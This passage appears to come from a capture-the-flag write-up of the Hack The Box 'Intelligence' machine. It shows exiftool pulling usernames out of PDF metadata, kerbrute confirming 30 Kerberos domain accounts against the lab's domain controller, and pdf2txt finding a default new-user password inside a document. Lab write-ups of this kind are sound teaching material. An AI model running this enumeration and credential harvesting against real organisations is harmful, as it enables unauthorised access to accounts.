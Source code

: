 Running `exiftool` tool again to new downloaded files and get more usernames, total 30
```bash
❯ exiftool * -Creator -s -s -s | grep -v '========' | head -n -1 | sort | uniq | wc -l
30
```

And all usernames are valid
```bash
❯ kerbrute userenum -d intelligence.htb --dc 10.10.10.248 users.txt

# ... [snip] ...

2021/11/27 10:30:10 >  Using KDC(s):
2021/11/27 10:30:10 >  	10.10.10.248:88

2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Reed@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Brian.Baker@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Anita.Roberts@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Danny.Matthews@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Ian.Duncan@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Darryl.Harris@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Brian.Morris@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Wilson@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Daniel.Shelton@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Mcbride@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jason.Wright@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Kelly.Long@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Richard.Williams@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jennifer.Thomas@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Kaitlyn.Zimmerman@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jessica.Moody@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Nicole.Brock@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 John.Coleman@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jose.Williams@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jason.Patterson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Teresa.Williamson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Samuel.Richardson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Scott.Scott@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Veronica.Patel@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Tiffany.Molina@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Thomas.Hall@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Travis.Evans@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 William.Lee@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Stephanie.Young@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Thomas.Valenzuela@intelligence.htb
2021/11/27 10:30:12 >  Done! Tested 30 usernames (30 valid) in 1.255 seconds
```

Read through all the pdfs using `pdf2txt` tool and somewhere in the text found a passowrd, don't know which pdf contians this text but we got a password.
```bash
❯ pdf2txt *

# ... [snip] ...

New Account Guide

Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876

After logging in please change your password as soon as possible.


# ... [snip] ...
```